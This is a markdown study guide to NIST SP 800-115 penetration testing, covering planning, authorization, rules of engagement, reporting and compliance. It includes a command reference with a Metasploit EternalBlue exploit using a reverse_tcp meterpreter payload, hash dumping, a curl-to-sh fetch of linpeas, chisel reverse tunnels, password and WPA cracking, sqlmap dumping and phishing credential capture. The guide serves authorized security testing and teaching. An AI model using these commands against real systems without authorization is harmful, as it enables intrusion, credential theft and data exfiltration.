

# NIST SP 800-115 — Technical Guide to Information Security Testing

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Introduction](#introduction)
2. [Publication History and Scope](#publication-history-and-scope)
3. [Who Should Use This Guide](#who-should-use-this-guide)
4. [The Four-Phase Testing Lifecycle](#the-four-phase-testing-lifecycle)
5. [NIST Testing Techniques](#nist-testing-techniques)
6. [NIST vs PTES Comparison](#nist-vs-ptes-comparison)
7. [Industries That Mandate NIST SP 800-115](#industries-that-mandate-nist-sp-800-115)
8. [Phase Diagram](#phase-diagram)
9. [Rules of Engagement Template](#rules-of-engagement-template)
10. [NIST-Compliant Test Plan Outline](#nist-compliant-test-plan-outline)
11. [Command Reference Aligned with NIST](#command-reference-aligned-with-nist)
12. [Relationship to Other NIST Publications](#relationship-to-other-nist-publications)

---

## Introduction

**NIST SP 800-115** (*Technical Guide to Information Security Testing and Assessment*) is a
publication by the National Institute of Standards and Technology (NIST) that provides practical
guidance for conducting information security testing. It establishes a structured, repeatable
methodology for identifying weaknesses in systems, networks, and applications — giving
organizations a defensible, auditable framework that meets compliance requirements for U.S. federal
agencies and their contractors.

Unlike vendor-driven frameworks, NIST SP 800-115 is a **federal standard** backed by decades of
government cybersecurity research. It defines not just *what* to test, but *how* to plan, execute,
document, and report security assessments in a way that satisfies compliance requirements.

The document covers three broad categories of assessment techniques:

- **Testing** — probing systems to discover vulnerabilities (active)
- **Examination** — inspecting configurations, policies, documentation (passive)
- **Interviewing** — questioning personnel to identify process gaps

This note focuses primarily on the **technical testing** pillar, which is directly relevant to
penetration testers, red team operators, and security engineers.

> **Note:** NIST SP 800-115 is a *guideline*, not a mandatory standard in itself — but compliance
> frameworks like FISMA, FedRAMP, and DoD STIGs reference it directly, making it functionally
> mandatory for federal work.

---

## Publication History and Scope

| Attribute | Detail |
|---|---|
| **Document Number** | NIST Special Publication 800-115 |
| **Full Title** | Technical Guide to Information Security Testing and Assessment |
| **Authors** | Karen Scarfone, Murugiah Souppaya, Amanda Cody, Angela Orebaugh |
| **Publication Date** | September 2008 |
| **Status** | Active (revision in progress as of 2024) |
| **Supersedes** | NIST SP 800-42 (Guideline on Network Security Testing, 2003) |
| **Pages** | 80 pages |
| **Access** | Free PDF at csrc.nist.gov |

The 2008 publication replaced SP 800-42 to account for:

- Emergence of web application security as a distinct discipline
- Growth of wireless networking and associated attack surfaces
- Increased regulatory requirements tied to FISMA (Federal Information Security Management Act)
- Formalization of social engineering as a recognized test category
- More rigorous emphasis on pre-test authorization and legal coverage

> **Warning:** As of 2024, NIST has indicated SP 800-115 is being revised. Check
> `csrc.nist.gov/publications/detail/sp/800/115/final` for the latest version. The update will
> incorporate cloud, container, and DevSecOps testing guidance.

The scope of SP 800-115 covers assessments of:

- **Network infrastructure** — routers, switches, firewalls, load balancers
- **Host-based systems** — servers, workstations, embedded devices
- **Applications** — web, client-server, thick clients, APIs
- **Wireless networks** — 802.11 (Wi-Fi), Bluetooth
- **Physical security controls** — as they relate to information system access
- **Human factors** — social engineering, phishing, vishing

---

## Who Should Use This Guide

| Role | How They Use 800-115 |
|---|---|
| **Security Assessment Teams** | Primary audience — use as a methodology blueprint |
| **Information System Owners** | Understand scope and risk of assessments |
| **Authorizing Officials (AOs)** | Define acceptable test parameters, sign authorization |
| **CISOs / Security Managers** | Align assessment programs with organizational risk posture |
| **Compliance Officers** | Map controls to FISMA/FedRAMP requirements |
| **Federal Contractors** | Required methodology for assessments on federal systems |
| **Auditors** | Verify assessment was conducted per recognized standard |

The guide explicitly targets both **internal security teams** conducting self-assessments and
**external third-party assessors** hired to evaluate systems independently.

---

## The Four-Phase Testing Lifecycle

NIST SP 800-115 divides a complete security assessment into four sequential phases. Each phase has
defined inputs, activities, outputs, and handoffs to the next phase.

---

### Phase 1 — Planning

The Planning phase is the foundation of the entire assessment. Poor planning leads to scope creep,
legal exposure, incomplete testing, or accidental system outages. NIST dedicates significant
attention here because federal systems require explicit authorization chains before any active
testing begins.

#### 1.1 Defining the Assessment Scope

The scope document must answer:

- **What systems are in scope?** IP ranges, hostnames, applications, physical locations
- **What systems are explicitly out of scope?** Third-party SaaS, shared production databases
- **What testing types are authorized?** Network scanning, exploitation, social engineering
- **What time windows are permitted?** Business hours only, after-hours, 24/7 continuous
- **What logical boundaries apply?** DMZ only, internal network, specific cloud tenant

> **Note:** Always document both in-scope AND out-of-scope systems explicitly. Ambiguity in scope
> is the leading cause of legal disputes and over-testing incidents after an assessment.

#### 1.2 Authorization and Legal Coverage

NIST requires **written authorization** before any active testing begins. The authorization chain:

1. **System Owner** — signs a Statement of Authorization for the target system
2. **Authorizing Official (AO)** — senior official who accepts residual risk of the assessment
3. **Legal Counsel** — reviews and approves the Rules of Engagement
4. **Assessment Lead** — countersigns confirming scope understanding

For federal systems under FISMA, authorization is embedded in the **Authorization to Operate
(ATO)** process and formalized in the Security Assessment Plan (SAP).

#### 1.3 Rules of Engagement

The ROE is a legally binding document specifying exactly what testers can and cannot do:

- Start and end dates and times for testing windows
- Emergency contact procedures (who to call if a system becomes unavailable)
- Incident response escalation path if compromise goes beyond expected scope
- Allowed and prohibited tools (e.g., exploit frameworks, denial-of-service tools)
- Allowed and prohibited techniques (e.g., no destructive testing in production)
- Handling of discovered sensitive data (PII, PHI, credentials, PCI data)
- Communication protocols: encrypted email, secure file sharing platform
- Evidence retention policies and destruction schedule post-engagement

#### 1.4 Team Roles and Responsibilities

| Role | Responsibilities |
|---|---|
| **Assessment Lead** | Project management, client liaison, final report sign-off |
| **Technical Lead** | Tool selection, methodology oversight, technical quality control |
| **Network Tester** | Infrastructure scanning, firewall testing, routing analysis |
| **Application Tester** | Web, API, and mobile application security testing |
| **Social Engineering Specialist** | Phishing campaigns, vishing calls, physical intrusion |
| **Report Writer** | Findings documentation, write-ups, executive summary |

#### 1.5 Pre-Assessment Checklist

Before testing begins, verify:

- [ ] Written authorization obtained and signed by all parties
- [ ] ROE reviewed by legal counsel and countersigned
- [ ] Emergency contacts confirmed with 24/7 availability
- [ ] Tester IP addresses documented (whitelisted or confirmed out-of-band for stealth)
- [ ] VPN or jump-box access provisioned and tested end-to-end
- [ ] Tool inventory and versions documented for reproducibility
- [ ] Secure communications channel established (PGP, Signal, or encrypted portal)
- [ ] Chain-of-custody procedures documented for evidence handling

---

### Phase 2 — Discovery

The Discovery phase encompasses all activities to map and understand the target environment before
active exploitation attempts. NIST frames this as a data-gathering phase — the goal is
intelligence, not compromise.

#### 2.1 Network Scanning

Network scanning identifies live hosts, open ports, running services, and network topology. NIST
recommends starting with broad sweeps and narrowing progressively to service-level detail.

```bash
# Basic ICMP ping sweep
nmap -sn 192.168.1.0/24

# ICMP echo + timestamp + netmask (more thorough discovery)
nmap -PE -PP -PM -sn 192.168.1.0/24

# ARP scan — most reliable for local network segments
nmap -PR -sn 192.168.1.0/24

# SYN scan — fast, stealthy, requires root
nmap -sS -p- 192.168.1.100

# Connect scan — no root required
nmap -sT -p 1-65535 192.168.1.100

# UDP scan for overlooked services: DNS, SNMP, DHCP, TFTP
nmap -sU -p 53,67,68,69,111,123,137,138,161,500,514,1194 192.168.1.100

# Full coverage scan: SYN + version + scripts + OS
nmap -sS -sV -sC -O -p- -T4 -oA nmap_full 192.168.1.100
```

#### 2.2 Service Version Detection

Identifying exact service versions is critical for vulnerability mapping. Version information feeds
directly into CVE lookups and exploit selection.

```bash
# Maximum probe intensity version detection
nmap -sV --version-intensity 9 -p 22,80,443,8080,8443 192.168.1.100

# Banner grabbing with netcat
nc -nv 192.168.1.100 22
nc -nv 192.168.1.100 25

# HTTP and HTTPS headers
curl -I http://192.168.1.100
curl -I https://192.168.1.100 --insecure

# FTP and SMTP banners
nc -nv 192.168.1.100 21
nc -nv 192.168.1.100 25
```

#### 2.3 OS Fingerprinting

```bash
# Active OS detection (needs at least one open and one closed port)
nmap -O 192.168.1.100

# Aggressive mode: OS + version + scripts + traceroute
nmap -A 192.168.1.100

# Passive fingerprinting — zero packets sent to target
p0f -i eth0 -p

# ICMP-based fingerprinting
xprobe2 192.168.1.100
```

#### 2.4 Enumeration

Enumeration extracts detailed information from discovered services: usernames, shares,
configurations, DNS records, SNMP community strings, and directory entries.

**DNS Enumeration:**

```bash
# Zone transfer attempt
dig axfr @ns1.target.com target.com

# DNS brute force with wordlist
dnsenum --dnsserver 8.8.8.8 --enum target.com -f /usr/share/wordlists/dns/namelist.txt

# Subdomain enumeration
subfinder -d target.com -o subdomains.txt
amass enum -passive -d target.com

# Reverse DNS on a subnet
nmap -sn --dns-servers 8.8.8.8 -R 192.168.1.0/24
```

**SMB Enumeration:**

```bash
# Null session share listing
smbclient -L //192.168.1.100 -N

# Full SMB enumeration (users, shares, groups, password policy)
enum4linux -a 192.168.1.100

# Nmap SMB scripts
nmap --script smb-enum-shares,smb-enum-users,smb-os-discovery -p 445 192.168.1.100

# CrackMapExec — comprehensive Active Directory recon
crackmapexec smb 192.168.1.0/24
crackmapexec smb 192.168.1.100 --shares
crackmapexec smb 192.168.1.100 --users
crackmapexec smb 192.168.1.100 --pass-pol
```

**SNMP Enumeration:**

```bash
# SNMP walk with default community string
snmpwalk -v2c -c public 192.168.1.100

# Brute force community strings
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 192.168.1.100

# Comprehensive SNMP data extraction
snmp-check 192.168.1.100 -c public
```

**LDAP Enumeration:**

```bash
# Anonymous LDAP bind
ldapsearch -x -h 192.168.1.100 -b "dc=target,dc=com"

# Enumerate Active Directory user objects
ldapsearch -x -h 192.168.1.100 -b "dc=target,dc=com" "(objectClass=person)"

# Nmap LDAP scripts
nmap -p 389 --script ldap-brute,ldap-search,ldap-rootdse 192.168.1.100
```

#### 2.5 Vulnerability Identification

NIST recommends automated vulnerability scanners as the primary mechanism, supplemented by manual
verification. Authenticated scans provide significantly better coverage than unauthenticated.

```bash
# Nessus service management
systemctl start nessusd
# Access at https://localhost:8834
# Create: Advanced Scan policy with authenticated credentials
nessuscli scan list
nessuscli scan export --scan-id 12 --format csv --file results.csv

# OpenVAS/GVM
gvm-start
gvm-cli socket --gmp-username admin --gmp-password admin \
  --xml "<create_target><name>T</name><hosts>192.168.1.100</hosts></create_target>"

# Nikto web scanner
nikto -h http://192.168.1.100
nikto -h https://192.168.1.100 -ssl
nikto -h 192.168.1.100 -p 8080 -o report.html -Format html
# Tuning 9 = SQL injection checks only
nikto -h http://192.168.1.100 -Tuning 9

# NSE vulnerability scripts
nmap --script vuln,safe -iL live_hosts.txt -oA nse_vuln_scan
nmap -p 445 --script smb-vuln-ms17-010 192.168.1.100
nmap -p 443 --script ssl-heartbleed 192.168.1.100
nmap -p 21  --script ftp-anon 192.168.1.100
```

---

### Phase 3 — Attack

The Attack phase is where testers attempt to exploit discovered vulnerabilities to verify
real-world impact. NIST frames this as **validation** — demonstrating what an adversary could
actually achieve, not merely confirming a vulnerability exists in a scanner report.

> **Warning:** All activities in the Attack phase must be explicitly authorized in the Rules of
> Engagement. Unauthorized exploitation constitutes a federal crime under the Computer Fraud and
> Abuse Act (CFAA). Never begin this phase without signed written authorization.

#### 3.1 Exploitation

```bash
# Metasploit Framework workflow
msfconsole

# Search for exploits
msf6 > search type:exploit platform:windows ms17-010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.50
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(ms17_010_eternalblue) > run

# Post-exploitation reconnaissance
meterpreter > sysinfo
meterpreter > getuid
meterpreter > hashdump
meterpreter > run post/multi/recon/local_exploit_suggester
meterpreter > run post/windows/gather/enum_logged_on_users

# Manual exploit workflow via searchsploit
searchsploit apache 2.4.49
searchsploit -m 50383
gcc -o exploit 50383.c && ./exploit 192.168.1.100
python3 50383.py http://192.168.1.100
```

#### 3.2 Privilege Escalation

After gaining initial access, testers attempt to escalate privileges to demonstrate the full
potential impact of a breach.

**Linux Privilege Escalation:**

```bash
# Find SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Check sudo permissions
sudo -l

# Inspect cron jobs for writable scripts
cat /etc/crontab
ls -la /etc/cron.*
crontab -l

# Search config files for embedded credentials
grep -rn "password" /etc/ 2>/dev/null
grep -rn "passwd" /var/www/ 2>/dev/null

# Automated privilege escalation checker
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Kernel version and exploit search
uname -a
searchsploit linux kernel $(uname -r | cut -d'-' -f1)
```

**Windows Privilege Escalation:**

```bash
# Meterpreter automatic escalation attempt
meterpreter > getsystem
meterpreter > getprivs

# Run WinPEAS automated checker
meterpreter > upload winPEASx64.exe C:\Windows\Temp\
meterpreter > shell
C:\Windows\Temp\winPEASx64.exe

# Check for unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\"

# AlwaysInstallElevated — allows any user to install MSI as SYSTEM
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Check for stored credentials
cmdkey /list
dir C:\Users\*\AppData\Roaming\Microsoft\Windows\Recent
```

#### 3.3 Lateral Movement and Pivoting

Once a system is compromised, testers demonstrate the ability to move through the network,
validating the real-world impact of insufficient network segmentation.

```bash
# Meterpreter: add internal network route
msf6 > route add 10.10.10.0/24 [session_id]

# Port forwarding through a compromised host
meterpreter > portfwd add -l 3389 -p 3389 -r 10.10.10.50

# SSH local port forward — access internal service via jump host
ssh -L 8080:10.10.10.50:80 user@192.168.1.100

# Dynamic SOCKS proxy for full network routing
ssh -D 1080 user@192.168.1.100
echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf
proxychains nmap -sT -Pn 10.10.10.0/24
proxychains crackmapexec smb 10.10.10.0/24

# Chisel — HTTP/HTTPS tunneling through restrictive firewalls
# Attacker side:
./chisel server -p 8000 --reverse
# Compromised host side:
./chisel client 192.168.1.50:8000 R:socks
```

#### 3.4 Password Cracking

Password cracking validates the strength of authentication controls and demonstrates the realistic
risk of credential compromise.

**Hashcat:**

```bash
# Identify hash type
hashid '$6$rounds=5000$salt$hashhashhashhashhashhash'
hash-identifier

# NTLM dictionary attack (Windows hashes)
hashcat -m 1000 -a 0 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt

# MD5 dictionary attack
hashcat -m 0 -a 0 md5_hashes.txt rockyou.txt

# bcrypt dictionary attack (slow by design)
hashcat -m 3200 -a 0 bcrypt_hashes.txt rockyou.txt

# sha512crypt (Linux shadow)
hashcat -m 1800 -a 0 sha512_hashes.txt rockyou.txt

# Rule-based attack: generates mutations (Password1!, P@ssw0rd, etc.)
hashcat -m 1000 -a 0 -r /usr/share/hashcat/rules/best64.rule hashes.txt rockyou.txt

# Brute force — 8 character all-charset
hashcat -m 1000 -a 3 hashes.txt ?a?a?a?a?a?a?a?a

# Hybrid: wordlist + 4-digit suffix
hashcat -m 1000 -a 6 hashes.txt rockyou.txt ?d?d?d?d
```

**John the Ripper:**

```bash
# Auto-detect format and crack
john hashes.txt

# Specify format explicitly
john --format=NT hashes.txt
john --format=md5crypt hashes.txt
john --format=sha512crypt hashes.txt

# Dictionary attack
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Dictionary with mangling rules
john --wordlist=rockyou.txt --rules=All hashes.txt

# Show cracked passwords
john --show hashes.txt

# Linux shadow file cracking
unshadow /etc/passwd /etc/shadow > combined.txt
john combined.txt

# SSH private key passphrase cracking
ssh2john id_rsa > id_rsa.hash
john --wordlist=rockyou.txt id_rsa.hash
```

#### 3.5 Social Engineering

NIST SP 800-115 explicitly recognizes social engineering as a legitimate and important assessment
technique, categorizing it as testing **human-based controls**.

**Phishing with GoPhish:**

```bash
# Launch GoPhish
./gophish &
# Dashboard available at https://localhost:3333

# Campaign components to configure:
# 1. Sending Profile  — SMTP relay configuration
# 2. Landing Page     — Cloned credential capture page
# 3. Email Template   — Phishing email with tracking pixel
# 4. User Group       — Recipients imported from CSV
# 5. Campaign         — Ties components; sets start time and window

# Metrics tracked per recipient:
# - Email opened (tracking pixel request)
# - Link clicked (redirect URL hit)
# - Credentials submitted (form POST captured)
# - Email reported (user awareness baseline)
```

**Vishing (Voice Phishing):**

Social engineering via telephone remains highly effective. NIST-sanctioned testing includes:

- Calling the help desk while impersonating an employee to request a password reset
- Testing whether staff verify caller identity before granting access or making changes
- Measuring adherence to escalation procedures when a suspicious call is suspected
- Documenting time-to-compromise and success rate as quantitative metrics

**Physical Social Engineering:**

NIST includes physical access testing as a recognized assessment category:

- Tailgating through badge-controlled doors to test physical access controls and staff vigilance
- USB drive drops in parking lots and common areas to test acceptable-use policy awareness
- Impersonating IT staff or vendors to test employee identity verification procedures
- Dumpster diving for sensitive documents to test data disposal and clean-desk policies

---

### Phase 4 — Reporting

The Reporting phase transforms raw technical findings into actionable intelligence for all
stakeholders. NIST places high emphasis on quality reporting as the primary deliverable that
justifies the investment in an assessment.

#### 4.1 Finding Documentation Structure

Every finding must contain all of these fields:

| Field | Description |
|---|---|
| **Finding ID** | Unique identifier (e.g., FIND-001) |
| **Title** | Short, descriptive name of the vulnerability |
| **Severity** | Critical / High / Medium / Low / Informational |
| **CVSS Score** | Base score calculated using CVSS v3.1 |
| **Affected Systems** | Hostnames, IP addresses, URLs impacted |
| **Description** | Technical explanation of how the vulnerability works |
| **Evidence** | Screenshots, command output, log excerpts |
| **Business Impact** | What could an attacker achieve if this is exploited? |
| **Recommendation** | Specific, actionable remediation steps |
| **References** | CVE numbers, CWE identifiers, vendor advisories |

#### 4.2 Risk Rating Methodology

NIST recommends combining **likelihood** and **impact** to produce composite risk ratings derived
from the risk model defined in NIST SP 800-30:

| Likelihood vs Impact | Low Impact | Medium Impact | High Impact |
|---|---|---|---|
| **High Likelihood** | Medium | High | Critical |
| **Medium Likelihood** | Low | Medium | High |
| **Low Likelihood** | Low | Low | Medium |

```bash
# CVSS v3.1 scoring via Python
pip install cvss
python3 -c "
from cvss import CVSS3
# AV:N AC:L PR:N UI:N S:U C:H I:H A:H = 9.8 Critical
c = CVSS3('CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H')
print(c.scores())
print(c.severities())
"
```

#### 4.3 NIST Recommended Report Structure

1. **Cover Page** — Classification marking, date, target system, assessment team members
2. **Executive Summary** — 1-2 pages in business language covering key risk themes
3. **Scope and Methodology** — What was tested, how, time period, constraints encountered
4. **Findings Summary Table** — All findings with severity, CVSS, and affected systems
5. **Detailed Findings** — Per-finding technical write-ups with full evidence
6. **Risk Register** — Prioritized remediation roadmap with ownership and timelines
7. **Appendices** — Raw tool output, scan data, custom exploit code, network diagrams

#### 4.4 Remediation Guidance Requirements

NIST requires that remediation guidance be:

- **Specific** — not "patch the system" but "apply Microsoft Security Update KB5023706"
- **Prioritized** — Critical and High severity must be addressed before Medium and Low
- **Realistic** — account for the organization's available resources and operational constraints
- **Verifiable** — include specific steps to confirm the remediation was successful

#### 4.5 Executive Summary Content Requirements

The executive summary must communicate clearly to non-technical leadership:

- Overall security posture expressed as a single clear statement
- Count of findings broken out by severity category
- The most critical risk explained in plain, non-technical language
- Business impact of the top three findings
- Five immediate recommended actions
- Trend comparison to the previous assessment if historical data is available

---

## NIST Testing Techniques

### Network Scanning

NIST identifies network scanning as the primary discovery technique, recommending a **layered
approach**: host discovery first, then port scanning, then service identification, then
vulnerability correlation.

```bash
# Complete layered scanning workflow

# Step 1: Host Discovery
nmap -sn 10.0.0.0/24 -oA host_discovery
grep "Up" host_discovery.gnmap | awk '{print $2}' > live_hosts.txt

# Step 2: Full port scan against live hosts
nmap -sS -p- -iL live_hosts.txt -oA full_port_scan --open

# Step 3: Service version and default script scan
nmap -sV -sC -iL live_hosts.txt -oA service_scan

# Step 4: OS detection
nmap -O -iL live_hosts.txt -oA os_detection

# Step 5: Vulnerability NSE scripts
nmap --script vuln -iL live_hosts.txt -oA vuln_scan

# Parse XML output to extract open ports
python3 -c "
import xml.etree.ElementTree as ET
tree = ET.parse('full_port_scan.xml')
root = tree.getroot()
for host in root.findall('host'):
    addr = host.find('address').get('addr')
    for port in host.findall('.//port'):
        if port.find('state').get('state') == 'open':
            print(f"{addr}:{port.get('portid')}")
"
```

### Vulnerability Scanning

NIST recommends authenticated scans wherever possible, as they reveal significantly more coverage
than unauthenticated scans by exposing patch levels, software versions, and local configuration.

```bash
# Lynis local system audit
lynis audit system
lynis audit system --pentest
lynis audit system --quiet --logfile /tmp/lynis.log

# Nessus authenticated scan (via UI):
# Policy > Advanced Scan > Credentials tab
# SSH: add username/password or private key for Linux
# Windows: add SMB domain/username/password or Kerberos
# Authenticated checks reveal: missing patches, registry misconfigs,
# insecure local policies, exposed sensitive files
```

### Web Application Testing

```bash
# OWASP ZAP automated active scan
zap-cli quick-scan --self-contained \
  --start-options '-config api.disablekey=true' http://target.com

# SQL injection with sqlmap
sqlmap -u "http://target.com/page?id=1" --dbs
sqlmap -u "http://target.com/login" --data "user=admin&pass=test" --dbs --batch
sqlmap -u "http://target.com/page?id=1" --dump --batch --threads 4

# Directory and file enumeration
gobuster dir -u http://target.com \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u http://target.com \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt,bak

# ffuf parameter and directory fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
     -u http://target.com/FUZZ
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u http://FUZZ.target.com -H "Host: FUZZ.target.com"

# Technology fingerprinting
whatweb http://target.com
whatweb -a 3 http://target.com

# XSS detection
dalfox url http://target.com/search?q=test

# Command injection
commix --url="http://target.com/ping?host=127.0.0.1"
```

### Wireless Testing

```bash
# Prepare wireless interface for monitoring
airmon-ng check
airmon-ng start wlan0

# Survey nearby wireless networks
airodump-ng wlan0mon

# Target a specific network to capture handshake
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Force a client to re-authenticate (generates handshake)
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

# Crack captured WPA2 handshake
aircrack-ng -w rockyou.txt -b AA:BB:CC:DD:EE:FF capture-01.cap

# WPS PIN brute force attack
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# WPA Enterprise PEAP attack — capture NTLMv2
hostapd-wpe -i wlan0mon hostapd-wpe.conf
# Crack the captured NTLMv2 challenge/response
hashcat -m 5500 ntlmv2.hash rockyou.txt
```

---

## NIST vs PTES Comparison

**PTES** (Penetration Testing Execution Standard) is the primary alternative framework.
A comprehensive comparison across 15 dimensions:

| Dimension | NIST SP 800-115 | PTES |
|---|---|---|
| **Primary Audience** | Federal agencies, compliance-driven organizations | Commercial pen testers, security consultants |
| **Phase Count** | 4 phases | 7 phases |
| **Phase Names** | Planning, Discovery, Attack, Reporting | Pre-engagement, Intel Gathering, Threat Modeling, Vuln Analysis, Exploitation, Post-Exploitation, Reporting |
| **Detail Level** | High-level technique categories | Highly granular; tool-specific guidance |
| **Industry Adoption** | Mandatory for U.S. federal systems | Widely adopted in commercial sector |
| **Compliance Use** | Directly referenced in FedRAMP, FISMA, NIST 800-53 | Not formally cited in compliance frameworks |
| **Authorization Emphasis** | Very strong — entire subsections on legal coverage | Addressed in pre-engagement; less formalized |
| **Social Engineering** | Recognized testing category with guidance | Full dedicated section with sub-techniques |
| **Reporting Format** | Structured sections and risk methodology defined | Defined but more flexible and customizable |
| **Tool Specificity** | Tool-agnostic; recommends technique categories | Names specific tools and Metasploit modules |
| **Intelligence Gathering** | Covered under Discovery phase | Dedicated full phase with OSINT sub-techniques |
| **Threat Modeling** | Not explicitly addressed | Full dedicated phase for adversary modeling |
| **Post-Exploitation** | Covered within Attack phase | Dedicated phase: persistence, cleanup, exfiltration |
| **Last Updated** | 2008 (revision in progress as of 2024) | 2012 with sporadic technical updates |
| **Cost / Access** | Free PDF from NIST | Free website document |

> **Note:** Many professionals use **PTES for technical execution** while using **NIST SP 800-115
> for the compliance and authorization framework** — the two are complementary, not competing.

---

## Industries That Mandate NIST SP 800-115

### Federal Agencies (FISMA)

The **Federal Information Security Modernization Act** requires all federal agencies to implement
information security programs following NIST guidance. SP 800-115 is the designated assessment
methodology under FISMA.

- All civilian executive branch federal agencies
- Contractors handling Federal Contract Information (FCI) or Controlled Unclassified Info (CUI)
- State agencies receiving federal funding for qualifying programs
- Assessment frequency: annually for High-impact systems, every three years for Moderate

### Department of Defense (DoD)

- **DISA STIGs** reference NIST assessment methodology for compliance verification
- **RMF for DoD** mandates NIST SP 800-115 for all security control assessments
- **CMMC** (Cybersecurity Maturity Model Certification) assessors align to NIST guidance
- Defense contractors required under DFARS 252.204-7012 to demonstrate NIST-aligned programs

### Healthcare (HIPAA)

HIPAA does not cite SP 800-115 directly, but the **HIPAA Security Rule** requires periodic
technical evaluations. HHS Risk Analysis Guidance points to NIST publications:

- Risk analysis must include vulnerability identification (maps to Phase 2 of SP 800-115)
- Technical safeguard verification maps directly to SP 800-115 techniques and tools
- OCR auditors expect documented, systematic, and reproducible assessment methodologies
- Covered entities and Business Associates must conduct periodic technical evaluations

### Financial Sector (FedRAMP)

**FedRAMP** (Federal Risk and Authorization Management Program) explicitly requires:

- Annual penetration testing conducted per NIST SP 800-115 methodology
- Testing must cover all boundaries of the authorization package
- Penetration testers must follow NIST-approved methodology for results to be accepted
- Results must feed into the System Security Plan (SSP) and Plan of Action & Milestones (POA&M)

### Critical Infrastructure

Executive Order 13636 and CISA guidance recommend NIST frameworks for:

- **Energy sector** — NERC CIP-007 (System Security Management) vulnerability management
- **Water and wastewater systems** — EPA cybersecurity guidelines
- **Transportation systems** — TSA cybersecurity directives
- **Financial market infrastructure** — FFIEC examination guidelines

> **Note:** For the **energy sector**, NERC CIP-007 mandates vulnerability management programs
> aligned with NIST methodology. Non-compliance fines can reach $1 million per violation per day.

---

## Phase Diagram



---

## Rules of Engagement Template

Based on NIST SP 800-115 Section 2.3, this template covers all required elements:

```
========================================================
SECURITY ASSESSMENT RULES OF ENGAGEMENT
========================================================
CLASSIFICATION: [CONFIDENTIAL / RESTRICTED]
VERSION: 1.0
DATE: YYYY-MM-DD

1. PARTIES INVOLVED
   Client Organization:    ______________________________
   Client POC Name:        ______________________________
   Client POC Phone:       ______________________________
   Client POC Email:       ______________________________
   Assessing Organization: ______________________________
   Assessment Lead:        ______________________________
   Assessment Lead Phone:  ______________________________

2. ASSESSMENT OVERVIEW
   Type:   [ ] External  [ ] Internal  [ ] Both
   Style:  [ ] Black Box  [ ] Gray Box  [ ] White Box
   Period: Start: YYYY-MM-DD   End: YYYY-MM-DD
   Hours:  [ ] Business Hours (0800-1800 local)
           [ ] After Hours Only
           [ ] 24/7 Continuous

3. IN-SCOPE SYSTEMS
   IP Ranges:          ___________________________________
   Hostnames:          ___________________________________
   Applications:       ___________________________________
   Wireless SSIDs:     ___________________________________
   Physical Locations: ___________________________________

4. OUT-OF-SCOPE SYSTEMS (testing explicitly prohibited)
   Excluded Systems:            __________________________
   Third-Party/Shared Systems:  __________________________

5. AUTHORIZED TESTING TECHNIQUES
   [ ] Network and port scanning
   [ ] Authenticated vulnerability scanning
   [ ] Unauthenticated vulnerability scanning
   [ ] Exploitation of discovered vulnerabilities
   [ ] Privilege escalation attempts
   [ ] Password cracking (captured hashes only)
   [ ] Authentication brute force (max attempts: ___)
   [ ] Social engineering via phishing email
   [ ] Social engineering via vishing (phone)
   [ ] Social engineering via physical access
   [ ] Wireless network testing
   [ ] DoS testing (isolated non-production only)
